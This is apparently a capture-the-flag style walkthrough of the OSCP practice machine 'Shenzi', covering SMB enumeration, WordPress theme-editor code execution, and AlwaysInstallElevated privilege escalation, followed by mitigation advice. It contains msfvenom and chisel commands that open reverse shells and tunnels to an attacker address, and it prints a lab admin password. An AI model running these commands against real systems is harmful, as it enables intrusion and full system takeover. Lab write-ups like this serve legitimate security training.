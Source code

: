 ```yaml
---
title: Shenzi
date: 2025-06-23
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Windows, phpinfo, WordPress, privesc-AlwaysInstallElevated] 
image: shenzi.webp
media_subpath: /assets/img/posts/2025-06-23-shenzi/
---
```


## Introduction

In this walkthrough, I encountered a WordPress site and gained access using credentials discovered in SMB shares. Once authenticated, I edited the `index.php` file of the active theme to include a PHP reverse shell and triggered it by visiting the page in the browser. This gave me a foothold on the machine as a low-privileged user. During post-exploitation enumeration, I discovered that the `AlwaysInstallElevated` registry keys were enabled, which allowed me to execute a malicious `.msi` installer file with elevated privileges. This ultimately resulted in a shell as `NT AUTHORITY\SYSTEM`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Services

### Port 21

Anonymous login is not allowed.

![image.png](image%202.png)

### Port 135

```bash
rpcclient -U'%' $IP
```

**NT_STATUS_ACCESS_DENIED**

### Port 139/445

```bash
smbclient -L //$IP/ -N
```

![image.png](image%203.png)

```bash
smbclient //$IP/Shenzi -N
- RECURSE ON
- PROMPT OFF
- mget *
```

![image.png](image%204.png)

### Port 3306

```bash
mysql -u shenzi --ssl=0 -p -h $IP
```

![image.png](image%205.png)

We are not allowed to connect.

## Web

### Port 80

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%206.png)

## Exploitation

Reading files obtaine from Share I found WordPress credentials:

![image.png](image%207.png)

We should `Wordpress` endpoint, I have tried gobuster and feroxbuster but couldn’t locate it. As the name of the box is `Shenzi` and it is often seen in `phpinfo` page we can make a guess that directory name is `shenzi`:

![image.png](image%208.png)

![image.png](image%209.png)

And yes we find a `WordPress` site. Let’s login to wordpress using credentials we obtained from share.

![image.png](image%2010.png)

I am gonna edit the `inactive theme` and obtain `RCE`.

![image.png](image%2011.png)

Go to `Theme Editor` and edit the `php` code and execute it accessing from browser.

I replaced `index.php` with reverse shell, now I am gonna access it from browser.

![image.png](image%2012.png)

![image.png](image%2013.png)

## Privilege Escalation

Checking privileges:

![image.png](image%2014.png)

I have decided to perform port forwarding of `MySQL` to find anything useful using [chisel](https://github.com/jpillora/chisel):

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 51234
.\chisel.exe client 10.10.14.23:51234 R:3306:127.0.0.1:3306
```

I checked every database but nothing useful found there:

![image.png](image%2015.png)

I prefer running `PowerUp.ps1` before `winPEASany.exe`:

![image.png](image%2016.png)

It found a registry vulnerability, that means all `.msi` files will be executed with high privileges. Let’s make it sure that with the following commands:

```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

![image.png](image%2017.png)

First let’s generate a payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.226 lport=4444 -f msi -o reverse.msi
```

copy the generated file to the Windows machine and execute it:

```bash
msiexec /quiet /qn /i reverse.msi
```

![image.png](image%2018.png)

## Credentials

```bash
admin:FeltHeadwallWight357
```

## Mitigation

- Disable the `AlwaysInstallElevated` policy by setting both `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` and `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` to `0`.
- Restrict write access to WordPress theme files by securing the file permissions and using version control or deployment pipelines.
- Avoid storing credentials in unsecured SMB shares and enforce least privilege access control.
- Regularly audit registry configurations and apply Group Policy to disable insecure settings.
